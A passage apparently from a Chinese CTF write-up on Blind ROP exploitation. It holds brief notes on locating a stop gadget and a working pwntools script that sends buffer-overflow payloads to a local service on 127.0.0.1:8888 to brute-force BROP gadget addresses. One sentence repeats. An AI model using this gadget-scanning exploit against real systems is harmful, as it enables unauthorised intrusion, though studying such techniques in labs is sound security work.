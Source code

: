 ![image-20240406195604484](${images}/image-20240406195604484.png)

得到一个可能的地址0x400555，试了一下0x400555以后都行，但是下面的555不行，因此，应该设立一个双重循环，这个地址从0x400555开始，经实验6b6可行



#### 识别brop gadgets

但是下面的555不行，因此，应该设立一个双重循环，这个地址从0x400555开始，经实验6b6可行

构造如下，get_brop_gadget 是为了得到可能的 brop gadget，后面的 check_brop_gadget 是为了检查

```python
def get_brop_gadget(length, stop_gadget, addr):
    try:
        sh = remote('127.0.0.1', 8888)
        sh.recvuntil(b'password?\n')
        payload = b'a' * length + p64(addr) + p64(0) * 6 + p64(
            stop_gadget) + p64(0) * 10
        sh.sendline(payload)
        content = sh.recv()
        sh.close()
        print(content)
        # stop gadget returns memory
        if not content.startswith(b'WelCome'):
            return False
        return True
    except Exception:
        sh.close()
        return False


def check_brop_gadget(length, addr):
    try:
        sh = remote('127.0.0.1', 8888)
        sh.recvuntil(b'password?\n')
        payload = b'a' * length + p64(addr) + b'a' * 8 * 10
        sh.sendline(payload)
        content = sh.recv()
        sh.close()
        return False
    except Exception:
        sh.close()
        return True


##length = getbufferflow_length()
length = 72
##get_stop_addr(length)
stop_gadget = 0x4006b6
addr = 0x400740
while 1:
    print(hex(addr))
    if get_brop_gadget(length, stop_gadget, addr):
        print('possible brop gadget: 0x%x' % addr)
        if check_brop_gadget(length, addr):
            print('success brop gadget: 0x%x' % addr)
            break
    addr += 1
```
